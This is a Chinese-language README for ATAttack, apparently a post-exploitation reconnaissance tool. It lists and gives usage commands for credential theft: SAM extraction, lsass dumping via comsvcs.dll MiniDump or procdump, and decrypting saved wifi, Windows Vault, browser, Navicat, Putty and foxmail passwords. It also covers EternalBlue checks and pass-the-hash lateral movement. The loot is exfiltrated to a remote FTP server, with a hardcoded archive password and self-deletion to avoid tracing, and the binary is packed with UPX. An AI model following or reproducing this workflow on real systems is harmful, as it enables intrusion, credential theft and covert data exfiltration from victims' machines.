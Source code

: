 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎各位指正与建议，互相共同进步。

#### v1.0-开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5da3eacf32f2ca14fb78c69e)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dac6de090144e463b1d6194)

##### 使用方法

###### cmd.exe

存储于本地文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

###### 一、基础信息获取：

1、系统驱动器信息获取，判断是否为沙箱环境，从而运行程序

2、系统进程识别，判断是否存在杀软av进程，对其进行输出

3、单机所有用户以及当前用户RDP远程连接导出 

4、当前系统已安装程序列表获取 

5、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等



###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。



###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp，半自动化离线解密  

3、通过netsh 导出系统 wifi密码、Windows Vaults 密码提取，

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie，

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 



###### 四、横向移动

1、探测网段存活，如存活则识别windows 系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。



###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为file_list.txt

3、通过提取lsass进程所保存的内存文件，暂命令为lsass.dmp

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\run.exe`

